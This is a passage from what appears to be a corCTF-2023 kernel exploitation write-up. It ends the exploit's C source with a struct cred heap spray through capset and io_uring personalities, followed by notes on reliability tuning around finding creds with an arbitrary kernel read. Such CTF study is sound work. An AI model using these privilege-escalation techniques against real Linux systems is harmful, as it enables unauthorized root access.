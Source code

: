 ```
        printf("failed to gain the flag\n");
    }

    puts("[*] End");
    prompt();

    return 0;
} 

void prompt() {
    printf("Enter any key to continue: ");
    getchar();
}

void xor(char* p, char byt, size_t size) {
    char* end = p + size;
    while (p != end) {
        *p ^= byt;
        ++p;
    }
}

void alloc_n_creds(struct io_uring* ring, size_t n_creds) {
    for (size_t i = 0; i < n_creds; i++) {
        struct __user_cap_header_struct cap_hdr = {
            .pid = 0,
            .version = _LINUX_CAPABILITY_VERSION_3
        };

        struct __user_cap_data_struct cap_data[2] = {
            {.effective = 0, .inheritable = 0, .permitted = 0},
            {.effective = 0, .inheritable = 0, .permitted = 0}
        };

        /* allocate new cred */
        EXIT_ON_ERR(syscall(SYS_capset, &cap_hdr, (void *)cap_data) < 0);

        /* increment refcount so we don't free it afterwards*/
        EXIT_ON_ERR((personalities[i] = io_uring_register_personality(ring)) < 0);
    }
}
```

Exploit is unstable because we make many unbacked assumptions. It works like 3/10 times. 

The most unstable point is how we find `struct cred` on kheap in `find_cred()` function.
And it's not the `0x3e8` part. It is how much should we read with `arbread()` beginning with `kheap` address so that we get `0x3e8` in our memory dump?
Tuning this part will make it much more reliable.


## About the CTF
The corCTF-2023 was great. Problems were hard to solve, technical help was on time. Really recommend next year:)
